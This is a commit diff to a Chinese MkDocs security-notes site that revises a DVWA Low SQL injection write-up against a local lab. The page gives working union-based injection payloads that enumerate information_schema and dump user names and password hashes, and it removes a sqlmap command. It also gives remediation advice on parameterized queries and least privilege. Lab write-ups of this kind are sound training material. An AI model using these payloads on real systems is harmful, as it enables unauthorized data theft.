

Before and after one commit to ksp1026-glitch/shentouceshibaogao, an MkDocs documentation site: the page built from docs/web/sql-injection-dvwa.md, in a window 1280 px wide and 1400 px high, scrolled down 1458 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
docs: 新增 SQL 注入与 CSRF 两篇 writeup

````diff
--- a/docs/web/sql-injection-dvwa.md
+++ b/docs/web/sql-injection-dvwa.md
@@ -1,11 +1,11 @@
-# SQL 注入入门 — DVWA Low 难度
+# SQL 注入 — DVWA Low
 
 !!! info "环境信息"
 
-    靶场：DVWA（`vulnerables/web-dvwa`，Docker）
+    靶场：DVWA（XAMPP + Apache + MariaDB）
     难度：Low
-    地址：`http://localhost:8080/vulnerabilities/sqli/`
-    工具：Burp Suite、sqlmap（仅用于最后对照验证）
+    地址：`http://localhost/dvwa/vulnerabilities/sqli/`
+    工具：浏览器、手动构造 payload
 
 ---
 
@@ -46,33 +46,41 @@
 浏览器访问：
 
 ```
-http://localhost:8080/vulnerabilities/sqli/?id=1&Submit=Submit
+http://localhost/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit
 ```
 
 返回一个用户的信息。说明 `id` 参数被用在查询里。
 
-### 第 2 步：用 Burp Suite 抓包
+### 第 2 步：加一个单引号，试探注入点
 
-打开 Burp，配置浏览器代理，把请求发到 **Repeater** 模块，方便反复改包重放。
-
-### 第 3 步：判断注入点类型
-
-先测数字型还是字符型。输入 `1'`：
+输入框填：
 
 ```
-id=1'
+1'
 ```
 
-页面返回 SQL 语法错误。**说明存在注入，且是字符型**（因为单引号把原语句的引号闭合了）。
+页面返回 SQL 语法错误：
 
-### 第 4 步：判断字段数
+```
+Fatal error: Uncaught mysqli_sql_exception: You have an error in your SQL
+syntax; check the manual that corresponds to your MariaDB server version...
+```
+
+**这个报错就是突破口。** 它证明了两件事：
+
+1. 输入被直接拼进了 SQL 语句
+2. 单引号闭合了原语句的引号，导致语法结构崩坏
+
+同时说明是**字符型注入**（数字型不会因为单引号报错）。
+
+### 第 3 步：判断字段数
 
 用 `ORDER BY` 逐步试探：
 
 ```
-id=1' ORDER BY 1 --
-id=1' ORDER BY 2 --
-id=1' ORDER BY 3 --
+1' ORDER BY 1 --
+1' ORDER BY 2 --
+1' ORDER BY 3 --
 ```
 
 前两个正常，第三个报错 → **查询返回 2 个字段**。
@@ -81,56 +89,49 @@
 
     `--` 是 SQL 注释符，用来把原语句后面的部分注释掉，避免语法错误。
 
-    注意 `--` 后面**必须有一个空格**，否则在某些数据库里不生效。
+    注意 `--` 后面**必须有一个空格**，否则在 MySQL/MariaDB 里不生效。
+    这是最容易踩的坑之一——不加空格会继续报语法错误，让人误以为方向错了。
 
-### 第 5 步：确定回显位置
+### 第 4 步：确定回显位置
 
 ```
-id=1' UNION SELECT 1,2 --
+1' UNION SELECT 1,2 --
 ```
 
 页面显示 `1` 和 `2` 的位置，就是两个可回显的字段。
 
-### 第 6 步：读取数据库信息
+### 第 5 步：读取数据库信息
 
 把回显位置替换成要查的内容：
 
 ```sql
 -- 当前数据库名和版本
-id=1' UNION SELECT database(), version() --
+1' UNION SELECT database(), version() --
 ```
 
-继续枚举：
+### 第 6 步：逐步枚举数据
 
 ```sql
--- 所有数据库
-id=-1' UNION SELECT 1, group_concat(schema_name) FROM information_schema.schemata --
-
 -- 当前库的所有表
-id=-1' UNION SELECT 1, group_concat(table_name) FROM information_schema.tables WHERE table_schema=database() --
+1' UNION SELECT 1, group_concat(table_name) FROM information_schema.tables
+   WHERE table_schema=database() --
 
 -- users 表的字段名
-id=-1' UNION SELECT 1, group_concat(column_name) FROM information_schema.columns WHERE table_name='users' --
+1' UNION SELECT 1, group_concat(column_name) FROM information_schema.columns
+   WHERE table_name='users' --
 
 -- 最终：拖出账号和密码哈希
-id=-1' UNION SELECT user, password FROM users --
+1' UNION SELECT user, password FROM users --
 ```
 
-!!! tip "为什么用 `id=-1`"
+!!! tip "为什么常用 `id=-1`"
 
-    把 `id` 设成一个不存在的值，让原查询返回空，这样 `UNION` 的结果就不会被原始数据混在一起，页面更干净。
+    把 `id` 设成一个不存在的值（如 `-1`），让原查询返回空，
+    这样 `UNION` 的结果就不会和原始数据混在一起，页面更干净。
 
-### 第 7 步：工具对照
+### 第 7 步：结果
 
-用 sqlmap 跑一遍，对照手工结果是否一致：
-
-```bash
-sqlmap -u "http://localhost:8080/vulnerabilities/sqli/?id=1&Submit=Submit" \
-       --cookie="PHPSESSID=你的session; security=low" \
-       --batch --dbs
-```
-
-**先手工，再用工具。** 工具只是验证，不是替代——面试时问的是原理，不是命令。
+成功拿到 `users` 表的所有用户名和密码哈希。
 
 ---
 
@@ -149,7 +150,7 @@
 
 ## 四、修复建议
 
-### 方案 1：参数化查询（首选）
+### 方案 1：参数化查询（首选，唯一根治方案）
 
 ```php
 $stmt = $connection->prepare(
@@ -159,9 +160,10 @@
 $stmt->execute();
 ```
 
-**这是唯一能从根本上解决问题的方法。** 参数化查询让数据库先把 SQL 结构编译好，再把用户输入当作纯数据填入——输入永远无法变成语法。
+**为什么这是根治**：数据库先把 SQL 结构编译好，再把用户输入当作**纯数据**填入。
+输入永远无法变成语法——从结构上切断了注入的可能。
 
-### 方案 2：输入类型校验
+### 方案 2：输入类型校验（补充，不能单独用）
 
 ```php
 if (!is_numeric($id)) {
@@ -170,13 +172,15 @@
 $id = intval($id);
 ```
 
-**只能作为补充，不能作为主要防御。** 因为不是所有参数都是数字（比如搜索框），而且绕过方式很多。
+**只能作为纵深防御的一层。** 不是所有参数都是数字（比如搜索框），
+而且黑名单式的过滤总有绕过方式。
 
 ### 方案 3：最小权限
 
-给 Web 应用的数据库账号只授予必要的权限（`SELECT` / `INSERT`），**不要用 root**，禁止访问 `information_schema`。
+给 Web 应用的数据库账号只授予必要的权限（`SELECT` / `INSERT`），
+**不要用 root**，并禁止访问 `information_schema`。
 
-这样即使被注入，损失也被限制在一定范围内。
+这样即使被注入，能拿到的数据也被限制在一定范围内。
 
 ### 方案 4：关闭错误回显
 
@@ -202,7 +206,11 @@
 | 常见误判 | 「只过滤单引号就够了」——宽字节、编码绕过都能突破 |
 | 挖洞思路 | 先判断类型 → 字段数 → 回显位 → 逐步枚举 |
 
-**我在这关学到的**：防御的核心不是「过滤坏字符」，而是「让数据和代码彻底分离」。前者是黑名单思维，永远有漏网之鱼；后者是结构性的解决。
+**我在这关学到的**：防御的核心不是「过滤坏字符」，而是**让数据和代码彻底分离**。
+前者是黑名单思维，永远有漏网之鱼；后者是结构性的解决。
+
+另一个体会是：`--` 后面那个空格看起来是小事，但它决定了你能不能继续往下走。
+**渗透测试里大量时间花在这类细节上，而不是"高级技巧"。**
 
 ---
 
--- a/mkdocs.yml
+++ b/mkdocs.yml
@@ -45,6 +45,8 @@
       - web/index.md
       - SQL 注入:
           - DVWA 入门: web/sql-injection-dvwa.md
+      - CSRF:
+          - DVWA 入门: web/csrf-dvwa.md
       - XSS:
           - web/xss-placeholder.md
   - CTF Writeup:
````
Also changed, not shown: other parts of docs/web/sql-injection-dvwa.md (+2 -2 lines), docs/web/csrf-dvwa.md (added, +276 -0 lines), docs/web/index.md (+2 -2 lines), 3 other files.
